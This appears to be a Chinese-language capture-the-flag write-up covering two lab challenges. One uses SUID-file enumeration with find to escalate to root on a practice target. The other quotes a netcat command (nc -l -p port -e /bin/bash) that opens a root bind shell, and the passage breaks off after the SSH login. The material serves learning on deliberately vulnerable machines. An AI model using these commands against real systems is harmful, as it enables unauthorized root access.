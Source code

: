 > 靶机配置了 ssh，可以账号 test、密码 123 通过 ssh 登录到靶机进行攻击。（靶机 IP 地址见题目中网络拓扑图）
>
> 在 Linux 系统中文件的权限是很重要的一部分，通常的权限由读、写、执行三位组成，对每个文件都指定了文件所有者、同用户组的权限和其它非本用户组的权限。同时 Linux 中还有特殊的 suid、sgid 权限。设置了 suid / sgid 权限的文件，任何用户在执行该文件时，都将拥有文件属主/属组账号对应的权限。
>
> 在靶机环境中，设置有一个属于 root 用户，同时设置了 suid 权限的文件，只需要找到它并执行即可获取 flag。

首先连接到 SSH：

```shell
$ ssh test@1.9.50.3
```

然后查找文件：

```shell
$ find / -perm /u=s 2>/dev/null
/bin/mount
/bin/ping
/bin/ping6
/bin/su
/bin/umount
/etc/super
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/sudo
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
```

显然，`/etc/super`不是常规的 suid 文件。

最后得到 flag：

```shell
$ /etc/super
```

# nc 黑客指令

> 靶机配置了 ssh，可以账号 test、密码 123 通过 ssh 登录到靶机。
>
> 在 Linux 中，`nc -l -p portnum -e /bin/bash` 这条指令相当于开放一个端口，当外部连接这个端口的时候，返回 shell，相当于具有了 root 权限。
>
> 我们已经通过以上指令开放了一个 root 权限的端口，接下来就需要你找到这个端口，尝试连接它并依据其返回的shell找到对应的 flag。
>
> 建议从大端口开始尝试，flag 在 `/root/flag.txt` 中。

首先连接到 SSH：

```shell
$ ssh test@1.9.96.3
```
